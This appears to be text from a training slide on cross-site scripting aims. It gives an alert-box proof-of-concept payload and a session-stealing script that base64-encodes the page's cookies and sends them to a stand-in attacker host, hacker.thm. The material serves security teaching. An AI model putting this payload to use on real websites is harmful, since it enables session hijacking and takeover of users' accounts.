

Here are some examples of XSS intentions
Proof Of Concept:
This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an alert box to pop up on the page with a string of text, for example:

Session Stealing:
Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.

<script>alert('XSS');</script>
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>